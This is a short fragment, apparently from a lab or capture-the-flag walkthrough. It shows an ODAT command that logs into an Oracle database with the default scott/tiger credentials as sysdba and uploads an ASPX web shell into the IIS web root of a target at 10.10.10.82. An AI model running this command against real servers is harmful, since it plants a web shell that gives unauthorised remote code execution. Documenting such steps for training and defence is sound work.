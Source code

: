 32 rows selected.


![](https://github.com/quentinhardy/odat/blob/master-python3/pictures/ODAT_main_features_v2.0.jpg?raw=true)


python3 odat.py dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "shell.aspx" "/opt/shells/shell.aspx" --sysdba


![](2021-01-26-14-08-23.png)
